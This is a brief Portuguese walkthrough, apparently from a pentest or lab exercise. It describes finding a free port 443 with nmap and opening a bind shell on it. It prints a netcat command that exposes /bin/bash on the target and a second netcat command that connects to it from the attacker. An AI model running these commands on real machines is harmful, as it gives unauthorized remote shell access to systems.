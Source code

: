 
---
![](https://i.imgur.com/pIkFQlZ.png)

Após fazer uma análise com o nmap, foi verificado que na maquina alvo existe uma porta que não está em uso (443), onde é possivel executar uma bind shell.

Maquina alvo: 

```bash
nc -vnlp 443 -e /bin/bash
```

Maquina atacante:

```bash
nc -vn {ip_do_alvo} 443
```